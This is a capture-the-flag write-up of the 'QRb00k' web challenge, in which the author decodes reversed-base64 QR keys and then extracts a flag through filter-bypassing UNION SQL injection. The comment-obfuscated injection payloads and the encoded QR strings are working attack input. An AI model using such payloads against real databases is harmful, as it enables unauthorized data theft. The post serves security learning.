



### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

 

We got a QR code which is the key to read our message:

 

Now let&#8217;s read the message using the QR code:

 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

```python
>>> "==QehRXS"[::-1].decode('base64')
'Itay'
```


Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

```mysql
'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets
```


<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

```mysql
'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets
```


 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

```mysql
'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets
```


 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan">Eat Veggies</a>
  </p>
</div>

 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/